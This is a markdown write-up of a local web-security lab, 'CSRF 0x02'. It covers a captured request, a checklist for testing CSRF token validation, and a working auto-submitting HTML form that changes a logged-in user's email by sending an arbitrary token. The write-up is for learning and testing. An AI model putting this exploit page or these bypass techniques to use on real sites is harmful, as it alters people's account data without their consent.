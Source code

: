 
# 🛡️ Cross-Site Request Forgery (CSRF) Token Bypass

## Lab: CSRF 0x02

### 🔑 **Initial Setup**

In this lab, similar to CSRF 0x01, we log in with credentials ("jeremy", "jeremy") and are presented with a form to update our email address, initially setting it to `jeremy@jeremy.com`.

### 🕵️ **Investigation via Burp Suite**

Upon submitting the new email, we capture the POST request with Burp Suite:

```
POST /labs/csrf0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: <http://localhost>
Connection: close
Referer: <http://localhost/labs/csrf0x02.php>
Cookie: csrf0x01=jeremy; csrf0x02=jeremy
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

email=jeremy&csrf=6Npl8FSbSXl4ze
```

### 🤔 **Exploring CSRF Token**

- We notice a CSRF token in the request and a corresponding hidden input in the HTML response:

```html
<input type="text" name="csrf" id="csrf" value="uiFzSQMNBOsxnd" hidden>
```

### 📚 **CSRF Token Validation Checklist**

We proceed to a detailed checklist to evaluate the effectiveness of CSRF protection:

- **Token Presence**: Verify every form includes a CSRF token.
- **Token in GET vs. POST**: Check if CSRF protection relies on POST exclusively or if GET requests bypass CSRF requirements.
- **Token Testing**: Assess the application's response to various manipulations of the token value and presence.
    - Using a random token
    - Reusing an old token
    - Using a token from another session
    - Testing predictability and static values
- **Additional Security Checks**:
    - Cross-check if tokens are tied to non-session cookies, vulnerable to XSS attacks, or validated through referer headers.
    - Examine if `SameSite` cookie attributes are set correctly to prevent CSRF.
    - Attempt to override HTTP methods to bypass CSRF protections.

### 🛠️ **Modifying the Attack Vector**

We modify our previous CSRF attack by changing the token value in our HTML file (`csrf2.html`):

```html
<html>
<body>
<form action="<http://localhost/labs/csrf0x02.php>" method="post">
    <input type="text" name="email" value="csrf@csrf.com">
    <input type="text" name="csrf" id="csrf" value="johnwashere" hidden>
    <button type="submit">Submit</button>
</form>

<script>
    window.onload = function(){
        document.forms[0].submit();
    }
</script>
</body>
</html>
```

### 🌍 **Execution and Results**

- **Accessing URL**: By opening `file:///home/kali/Documents/csrf2.html` in a browser, the page automatically submits the modified form.
- **Outcome**:
    - "Update contact email address"
    - "Current user: jeremy"
    - "Email address: [csrf@csrf.com](mailto:csrf@csrf.com)"

### ✅ **Conclusion**

This experiment successfully demonstrates the CSRF token bypass, indicating vulnerabilities in the token validation process or session management, thereby confirming the effectiveness of our crafted attack in altering user data without proper authorization.
